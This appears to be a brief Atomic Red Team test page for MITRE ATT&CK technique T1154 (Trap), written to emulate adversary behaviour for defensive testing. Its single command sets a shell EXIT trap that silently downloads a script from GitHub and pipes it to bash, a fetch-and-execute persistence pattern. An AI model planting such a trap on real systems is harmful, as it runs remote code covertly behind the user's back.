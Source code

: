 # Trap

MITRE ATT&CK Technique: [T1154](https://attack.mitre.org/wiki/Technique/T1154)


    trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Linux/Payloads/echo-art-fish.sh | bash' EXIT

    exit

After exiting the shell, the script will download and execute.